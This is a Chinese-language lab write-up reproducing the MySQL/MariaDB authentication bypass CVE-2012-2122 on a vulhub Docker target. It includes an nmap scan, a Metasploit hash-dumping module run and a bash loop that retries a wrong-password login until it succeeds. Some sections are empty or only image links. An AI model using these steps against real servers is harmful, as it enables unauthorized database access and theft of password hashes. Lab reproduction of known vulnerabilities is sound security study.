







# Mysql身份认证绕过漏洞（CVE-2012-2122）

## 漏洞描述

当连接MariaDB/MySQL时，输入的密码会与期望的正确密码比较，由于不正确的处理，会导致即便是memcmp()返回一个非零值，也会使MySQL认为两个密码是相同的。也就是说只要知道用户名，不断尝试就能够直接登入SQL数据库

## 漏洞原理



## 影响版本

MariaDB versions from 5.1.62, 5.2.12, 5.3.6, 5.5.23 are not.

MySQL versions from 5.1.63, 5.5.24, 5.6.6 are not.

## 复现机器版本

攻击机：Ubuntu18.04

靶机：Ubuntu18.04 Docker version 20.10.10

## 漏洞复现

### 准备阶段

#### 启动靶场

```
cd /home/radiuscircle/vulhub/mysql/CVE-2012-2122
docker-compose up -d
```



#### 信息收集

使用nmap 对靶机进行扫描，查看所开放的端口，以及扫描数据库的版本信息

```
sudo nmap -T4 -sV -O -p 3306 192.168.180.129
```

发现目标主机开放端口3306



### 漏洞利用

#### 1、msf

使用msf扫描模块

```
┌──(cnandy㉿kali)-[~/桌面]
└─$ msfconsole
# 启动msf                
Metasploit tip: Search can apply complex filters such as 
search cve:2009 type:exploit, see all the filters 
with help search
# 选择需要的模块
msf6 > use auxiliary/scanner/mysql/mysql_authbypass_hashdump
msf6 auxiliary(scanner/mysql/mysql_authbypass_hashdump) > show options
# 查看选项
Module options (auxiliary/scanner/mysql/mysql_authbypass_hashdump):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   RHOSTS                     yes       The target host(s), range CIDR iden
                                        tifier, or hosts file with syntax '
                                        file:<path>'
   RPORT     3306             yes       The target port (TCP)
   THREADS   1                yes       The number of concurrent threads (m
                                        ax one per host)
   USERNAME  root             yes       The username to authenticate as
# 配置参数
msf6 auxiliary(scanner/mysql/mysql_authbypass_hashdump) > set rhosts 192.168.180.129
rhosts => 192.168.180.129
msf6 auxiliary(scanner/mysql/mysql_authbypass_hashdump) > set threads 20
threads => 20
msf6 auxiliary(scanner/mysql/mysql_authbypass_hashdump) > exploit
# 运行
```



可以看到破译出的经过MD5加密之后的root密码

解密



连接mysql数据库



连接成功

#### 2、shell脚本

```
vim test.sh
#!/bin/bash
for ((i = 1; i < 1000; i++))  # 循环1000次
do
        mysql -h 192.168.216.189 -u root -p111111 -P 3306;
done
```

执行

```
bash test.sh
```



经过短暂的运行，成功连接mysql数据库

### 关闭容器

```
docker-compose down
```

